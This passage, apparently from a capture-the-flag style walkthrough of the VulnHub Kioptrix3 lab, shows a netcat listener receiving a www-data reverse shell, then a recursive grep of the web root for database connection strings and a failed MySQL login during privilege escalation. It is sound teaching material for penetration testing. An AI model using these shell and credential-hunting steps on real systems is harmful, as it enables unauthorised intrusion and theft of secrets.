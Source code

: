 	6. Obtained www-data shell
		```
		┌──(root💀kali)-[~/vulnHub/kioptrix3/192.168.1.95/exploit2]
		└─# nc -nvlp 4444
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		Ncat: Connection from 192.168.1.107.
		Ncat: Connection from 192.168.1.107:59717.
		whoami
		www-data
		```
		![](images/Pasted%20image%2020220123191806.png)
	
# Privilege Escalation
## Loneferret - Via Creds Found
1. Look for SQL Credentials
	```
	www-data@Kioptrix3:/home/www/kioptrix3.com$ grep -Rnw $(pwd)/* -ie "connect" --color=always 2>/dev/null
	
	/home/www/kioptrix3.com/core/lib/RemoteFiles.php:91:	   // connect to the remote server
	/home/www/kioptrix3.com/gallery/gheader.php:25:    // Connect to MySQL
	/home/www/kioptrix3.com/gallery/install.BAK:96:        // Try to connect to the database
	/home/www/kioptrix3.com/gallery/themes/black/stats.php:49://Connect to local host to check URL data
	/home/www/kioptrix3.com/gallery/themes/black/stats.php:75:        $db = MYSQL_CONNECT($host,$user, $pass) OR DIE("Unable to connect to database"); 
	/home/www/kioptrix3.com/gallery/themes/black/stats.php:132://Connect to remote host to get initial URL data if there is no local data
	/home/www/kioptrix3.com/gallery/themes/black/stats.php:138:    $db = MYSQL_CONNECT($host,$user, $pass) OR DIE("Unable to connect to database"); 
	```
2. View `stats.php`
	![](images/Pasted%20image%2020220123192954.png)
	```
	www-data@Kioptrix3:/home/www/kioptrix3.com$ mysql -u lancore_gallarif -p
	Enter password: 
	ERROR 1045 (28000): Access denied for user 'lancore_gallarif'@'localhost' (using password: YES)
	```
	- Not the database we are looking for
3. View `gheader.php`